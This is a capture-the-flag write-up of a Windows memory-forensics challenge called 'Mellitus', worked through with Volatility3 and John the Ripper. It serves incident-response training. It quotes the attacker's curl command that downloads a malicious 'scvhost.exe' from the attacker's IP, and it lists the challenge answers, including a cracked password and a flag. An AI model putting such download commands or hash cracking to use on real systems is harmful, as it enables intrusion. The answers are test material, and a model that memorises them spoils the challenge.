 # **Mellitus Writeup**
![image](https://github.com/user-attachments/assets/41b667e6-1a36-44f9-b4b8-4655a3a89b41)

You’ve been a SOC analyst for the last 4 years but you’ve been honing your incident response skills! It’s about time you bite the bullet and go for your dream job as an Incident Responder as that’s the path you’d like your career to follow. Currently you are going through the interview process for a medium size incident response internal team and the cocky interviewing responder has given you a tough technical challenge to test your memory forensics aptitude. Can you get all the questions right and secure the job?

**Tools:**
  - Volatility3
**Learned:**
  - Windows Memory Forensics
### **Question 1**
What was the time on the system when the memory was captured?

Initial analysis we are given 2 files a vmem and vmsn. To find the time of the memory capture I will first find what kind of capture it is. The linux plugin failed but the windows.info compiled and found this

![image](https://github.com/user-attachments/assets/4ce52b47-8146-4199-acfb-82fe636d8e5a)

### **Answer**: 2023–10–31 13:59:26

### **Question 2**
What is the IP address of the attacker?

The windows.netstat plugin will display all connection info! Here analyzing the IP’s and ports I noticed traffic over usual ports except over 4545.. I tried that foreign address out and that is the IP of the attacker

![image](https://github.com/user-attachments/assets/2003b885-b3ae-4eeb-b744-2f06cac38ba4)

### **Answer**: 192.168.157.151

### **Question 3**
What is the name of the strange process?

The netstat plug usually shows info such as the name of the process running on the port. I did some grepping of the TA IP and found this curl command and found the name of the service

![image](https://github.com/user-attachments/assets/4b78c5c3-d3e8-468d-96a5-317f6767656b)

### **Answer**: Scvhost.exe

### **Question 4**
What is the PID of the process that launched the malicious binary?

The pstree plugin is perfect for this as it displays information about the PIDS that were running on the system when the memory was captured. Found it!

![image](https://github.com/user-attachments/assets/40225362-319e-4024-a8c3-e4c22528ef8a)

### **Answer**: 6772

### **Question 5**
What was the command that got the malicious binary onto the machine?

I found this earlier when using grep

![image](https://github.com/user-attachments/assets/589f883b-e07e-48e9-9801-23cc3213d7e0)

### **Answer**: curl -o scvhost.exe http://192.168.157.151:8000/scvhost.exe

### **Question 6**
The attacker attempted to gain entry to our host via FTP. How many users did they attempt?

Earlier I saw some noise about failed password being used from the TA IP. I am going to use that grep again and see what I can find. Found the accounts they tried

![image](https://github.com/user-attachments/assets/8c91f40b-b488-440d-a11c-27ebe92d3ed4)

### **Answer**: 3

### **Question 7**
What is the full URL of the last website the attacker visited?

I will not lie this took me a while to solve. But I found a good path going forward! For this one I had to think about how can I see the URL’s… then I began to think of some web browsers then I found the one for Chrome and using my resources I used the plugin to dump the files from that PID… it dumped a ton of files

- python3 vol.py -f “/home/buffn3rd/Desktop/mellitus./memory_dump.vmem” windows.dumpfiles — pid 8048

![image](https://github.com/user-attachments/assets/d6b0eddf-fa5f-4006-a276-77cfbd4156c8)

Finally this file here file.0xc40aa9259df0.0xc40aa4ec6be0.SharedCacheMap.History.vacb showed the URL. I was able to view the file using DB Browser for SQLite

### **Answer**: https://stackoverflow.com/questions/38005341/the-response-content-cannot-be-parsed-because-the-internet-explorer-engine-is-no

### **Question 8**
What is the affected users password?

I had to research which plugin and I learned the windows.hashdump will dump the hashes of all hte accounts that have logged into that PC.

![image](https://github.com/user-attachments/assets/7b69d6e9-0624-43ce-b2ea-9bcad3005238)

From there I took the hashes and stored them in a file and then ran john the ripper password cracker against the file hashes in Kali and it found the password

![image](https://github.com/user-attachments/assets/157f1abd-b10e-491f-8086-2d0c38df19bc)

### **Answer**: flowers123

### **Question 9**
There is a flag hidden related to PID 5116. Can you confirm what it is?

Similiar to question 7 I ran this command to dump the files

python3 vol.py -f “/home/buffn3rd/Desktop/mellitus./memory_dump.vmem” windows.dumpfiles — pid 5116

![image](https://github.com/user-attachments/assets/68069c21-4da4-4f34-a422-db1fbebe9806)

### **Answer**: you_Foundme!

Overall, this was an easy memory dump analysis. It felt nice to be mostly brushed up on all the plugins and know what to use when
